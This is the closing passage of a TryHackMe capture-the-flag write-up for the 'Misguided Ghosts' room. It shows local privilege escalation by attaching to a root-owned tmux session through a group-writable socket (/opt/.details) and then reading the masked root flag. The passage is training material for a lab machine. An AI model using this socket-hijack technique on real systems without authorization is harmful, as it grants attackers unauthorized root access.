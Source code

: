 Then We ssh as user hayley with the password we retrived.


<br>
<h2 id="Local-Privilege-Escalation">Local Privilege Escalation</h2>

Furthur Enumeration was done, untill we got an interesting Processes

```SH
hayley@misguided_ghosts:~$ id
uid=1000(hayley) gid=1000(hayley) groups=1000(hayley),1002(paramore)
hayley@misguided_ghosts:~$ ps aux|grep root
...
root      1028  0.0  0.1  28540  2416 ?        Ss   17:22   0:00 /usr/bin/tmux -S /opt/.details new -s vpn -d
...
```

The Flag **-S** point to **/opt/.details** is used to specify the server socket path for [Tmux](https://wiki.archlinux.org/index.php/tmux),

```SH
hayley@misguided_ghosts:~$ ls -lat /opt/.details
srw-rw---- 1 root paramore 0 Nov 10 17:22 /opt/.details
```

On this situation our groupe (paramore) have the read-write permission over Tmux socket file, means that Tmux is prone to a local privilege-escalation vulnerability, We can easly Exploit this by Running Tmux withing the context of the same Path:

```SH
hayley@misguided_ghosts:/var/tmp$ tmux -S /opt/.details
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
{p1v**********un}
```

<br>

<h2 id="Conclution">Conclution </h2>

[Tryhackme](https://tryhackme.com/) is getting better and way better everyday, also Thanks to [Jake Ruston](https://tryhackme.com/p/JakeDoesSec) and [Bob Loblaw](https://tryhackme.com/p/bobloblaw) for such an amazing experiance.

<br>
<br>
Best Regards

[m3dsec](https://github.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>